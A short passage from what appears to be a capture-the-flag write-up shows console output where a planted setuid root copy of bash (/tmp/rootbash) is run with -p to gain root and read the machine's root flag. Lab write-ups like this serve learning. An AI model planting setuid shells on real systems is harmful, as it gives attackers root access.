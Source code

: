 ```console
│   ELF architecture: EM_X86_64 (current architecture: amd64)
│ ..
╵
jeremy@previous:~/backdoor$ ls -la /tmp/rootbash 
-rwsr-xr-x 1 root root 1396520 Oct 17 18:15 /tmp/rootbash
jeremy@previous:~/backdoor$ /tmp/rootbash -p

rootbash-5.1# id
uid=1000(jeremy) gid=1000(jeremy) euid=0(root) groups=1000(jeremy)
rootbash-5.1# cat /root/root.txt 
a7425763417225c162ac88a8a40d39f6
```


SEE YOU IN THE NEXT ONE:)
